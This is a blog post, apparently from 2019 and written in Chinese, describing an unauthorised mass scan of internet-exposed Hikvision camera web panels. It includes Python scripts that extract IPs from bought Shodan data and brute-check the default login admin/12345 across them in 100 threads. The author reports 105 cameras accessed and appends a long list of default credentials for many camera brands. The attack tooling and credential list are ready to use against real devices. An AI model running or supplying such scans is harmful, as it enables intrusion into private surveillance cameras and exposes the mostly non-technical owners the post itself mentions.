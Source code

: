 ```yaml
---
title: 针对海康威视网络摄像头弱密码的一次扫描
date: 2019-11-28 20:15:06
tags:
	- scan
categories:
	- coding
---
```


## 前言

在我上高二的时候，海康威视摄像头被爆出大量公开web访问具有弱密码，那时手动对学校内部的摄像头进行fuzz，成功进入了几个摄像头控制web，能够随意查看学校的监控。

海康威视web界面的弱密码是 admin  12345

时隔四年，想要再次对网络上能够访问到的海康威视web管理进行一次批量弱密码扫描

## 从shodan获取数据

首先需要搞到全网所有能够访问到的海康威视机器的IP，这是个工作量极大的任务，如果自己进行全网服务扫描的话无论是时间周期还是耗费资金都是我无法承受的

之前了解过shodan，shodan被称为“最恐怖的搜索引擎”，能够提供多年来其扫描到的全网提供的服务，可惜数据的价格极高

今年黑五是shodan诞生第十年，shodan给出极大的优惠，正式会员+20credit只需要1刀，手头有信用卡和企业邮箱的我二话不说先上了20个账号

有了shodan的credit就可以购买它的数据了。海康威视的web管理界面的关键词很简单，只需要在shodan搜索“hikvision”

{% asset_img shodan1.png [最新的搜索结果] %}

在我写这篇博客的时候搜索到的数据有18万条，前段时间我下载数据的时候是19万条。

下载大量数据是需要花credit的，1credit可以下载1万条数据，所以19万多的数据花费了我20credit，正常情况下20credit是49刀，这次黑五真是太实惠了

## 提取有用信息

有了数据之后通过python解析，检查是否存在http服务，如果存在就提取ip和port

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-

import json

fi = open("shodan_data.json")
fo = open("ip.txt", 'w')

line = fi.readline()
numall = 1
num = 0

while line:
    line = fi.readline()
    numall = numall+1
    try:
        a = json.loads(line)
        if 'http' in a:
            num = num+1
            txt = a['http']['host']+':'+str(a['port'])+'\n'
            fo.write(txt)
            print(txt)
    except Exception as e:
        continue

fo.close()
fi.close()

print(numall)
print(num)
```

## 分析与扫描

然后通过多线程python脚本进行弱密码批量扫描。

通过手工尝试找到一台可以弱密码登录进去的机器，通过burp抓包分析，找到用来验证弱密码的接口。

{% asset_img baseauth.png [登录使用的接口和验证方式] %}

分析发现登录使用的是base auth，这就简单了。使用的接口是userCheck，如果登录成功应该返回200.

{% asset_img authsuccess.png [登录成功] %}

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-
#批量筛选海康威视摄像头的弱密码
import threading
import requests
import queue
import sys
import re

def Threads():
    threadlist=[]
    myqueue=queue.Queue()
    for ip in open('ip.txt','r'): #扫描出的ip
        myqueue.put(ip.replace('\n',''))
    for x in range(0,100):  #线程数
        th=threading.Thread(target=scan_Hikvision,args=(myqueue,))
        threadlist.append(th)
    for t in threadlist:
        t.start()
    for t in threadlist:
        t.join()

def scan_Hikvision(myqueue):
    while not myqueue.empty():
        ip=myqueue.get()
        try:
            print("[*]scan:"+ip)
            r = requests.get(url=("http://%s/PSIA/Custom/HIK/userCheck" % ip),auth=('admin','12345'),timeout=10)
            status = re.findall(r'<statusValue>(.*)</statusValue>', r.text)
            if status[0] == '200':
                print('[√] Host http://'+ ip +' Login Success!\n')
                f = open('ok.txt', 'a+')
                f.write(ip+"\n")
                f.close()
                break
        except:
            continue

if __name__=='__main__':
    Threads()
```

正好有个美国的vps，就扔到这个服务器上进行扫描，本机也开起来扫

100线程很快就扫描完毕了，国内外扫描完的结果去重后一共留下105个可登录弱密码。感觉不应该只有这么点，登录后查看只发现一个版本的海康威视，可能是检测弱密码的接口在其他版本中不存在，或者其他版本默认密码更换或者其他原因

## 后话

海康威视应该是采取了手段来避免弱密码的再次产生，但是之前老版本的DVR还有一部分并没有进行更新，大部分是农村的家庭或工厂监控，大家也都不太懂，并没有修改默认密码

心里不是滋味，身边也有一些父母的朋友他们让我帮忙安装一些路由器、监控等设备，他们的文化水平不高，当我要给他们修改密码的时候，一部分会选择手机号码，也有一部分让我不要修改密码，说改了别记不住，直接出厂密码就行了，忘了可以看一下说明书

能不能想出一种办法，既考虑到安全性，又能顾虑到这部分人的需求，这是个问题

## 弱密码收集

```
1.海康威视IP网络摄像机：
用户：admin，密码：12345
zoomeye搜索关键词：hikvision
2.大华网络摄像机：
user:admin pass:admin 管理权限
user:default pass:user 用户默认登陆帐号
user:888888 pass:admin
user:666666 pass:user
zoomeye搜索关键词：WEB SERVICE
3.cctv摄像机：
user：admin pass：空
telnet登陆 user：root pass：”juantech”
zoomeye搜索关键词：JAWS/1.0
4.SQ-WEBCAM摄像机：
user：admin pass：admin
zoomeye搜索关键词：SQ-WEBCAM
ACTi: admin/123456 or Admin/123456
American Dynamics: admin/admin or admin/9999
Arecont Vision: none
Avigilon: admin/admin
Axis: traditionally root/pass, new Axis cameras require password creation during first login
Basler: admin/admin
Bosch: none
Brickcom: admin/admin
Canon: root/camera
Cisco: No default password, requires creation during first login
Dahua: admin/admin
Digital Watchdog: admin/admin
DRS: admin/1234
DVTel: Admin/1234
DynaColor: Admin/1234
FLIR: admin/fliradmin
Foscam: admin/
GeoVision: admin/admin
Grandstream: admin/admin
Hikvision: admin/12345
Honeywell: admin/1234
IQinVision: root/system
IPX-DDK: root/admin or root/Admin\
JVC: admin/jvc
March: Networks: admin/
Mobotix: admin/meinsm
Panasonic: admin/12345
Pelco Sarix: admin/admin
Pixord: admin/admin
Samsung Electronics: root/root or admin/4321
Samsung Techwin (old): admin/1111111
Samsung (new): admin/4321
Sanyo: admin/admin
Scallop: admin/password
Sentry360 (mini): admin/1234
Sentry360 (pro): none
Sony: admin/admin
Speco: admin/1234
Stardot: admin/admin
Starvedia: admin/
Trendnet: admin/admin
Toshiba: root/ikwd
VideoIQ: supervisor/supervisor
Vivotek: root/
Ubiquiti: ubnt/ubnt
Wodsee: admin/
```

